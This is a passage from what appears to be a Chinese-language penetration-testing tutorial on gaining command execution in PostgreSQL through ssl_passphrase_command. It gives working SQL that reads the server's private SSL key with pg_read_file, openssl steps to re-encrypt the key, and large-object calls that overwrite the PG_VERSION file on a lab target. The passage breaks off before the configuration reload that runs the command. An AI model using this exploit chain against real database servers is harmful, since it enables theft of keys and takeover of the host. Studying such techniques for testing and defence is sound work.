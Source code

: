 和上面的利用 UDF 命令执行一样，不过不同点在于上面一个是创建 function 加载，这个方式是通过改配置文件中的 session\_preload\_libraries 进行加载，这里就不复现了

## [利用 ssl\_passphrase\_command 执行命令](#toc_ssl_passphrase_command)

方法来自于 [https://pulsesecurity.co.nz/articles/postgres-sqli](https://pulsesecurity.co.nz/articles/postgres-sqli) 这篇文章的场景

**利用条件**  
\- 需要知道 PG\_VERSION 文件的位置 (不是 PG\_VERSION 文件也行，pgsql 限制私钥文件权限必须是 0600 才能够加载，pgsql 目录下的所有 0600 权限的文件都是可以的，但覆盖后没啥影响的就 PG\_VERSION 了)

**描述**

当配置文件中配置了 ssl\_passphrase\_command，那么该配置在需要获取用于解密 SSL 文件密码时会调用该配置的命令。

通过上传 pem，key 到目标服务器上，读取配置文件内容，修改配置文件中的 ssl 配置改为我们要执行的命令，通过 lo\_export 覆盖配置文件，最后通过 pg\_reload\_conf 重载配置文件时将执行命令

**复现**

这里以靶机上已经存在的 2 个密钥文件为例

```plain
/etc/ssl/certs/ssl-cert-snakeoil.pem
/etc/ssl/private/ssl-cert-snakeoil.key
```

通过文件读取获取私钥

```plain
select pg_read_file('/etc/ssl/private/ssl-cert-snakeoil.key');
```

对私钥文件加密

```plain
# 密码为 12345678
openssl rsa -aes256 -in ssl-cert-snakeoil.key -out private_passphrase.key

# 输出为 base64 格式
cat private_passphrase.key | base64 -w 0 > base.txt
```

上传 private\_passphrase.key 到目标服务器上

由于 pgsql 限制私钥文件权限必须是 0600 才能够加载，这里搜索 pgsql 目录下的所有 0600 权限的文件，发现 PG\_VERSION 文件符合条件，而且覆盖也没有太大影响

PG\_VERSION 与 config\_file 文件同目录，上传私钥文件覆盖 PG\_VERSION，可绕过权限问题。

```plain
-- 将 private_passphrase.key 覆盖 PG_VERSION 文件
select lo_from_bytea(10004,decode('base64 的内容，这里略','base64'));
select lo_export(10004,'/var/lib/postgresql/data/PG_VERSION');
SELECT lo_unlink(10004);
```

在靶机中查看验证是否写入成功
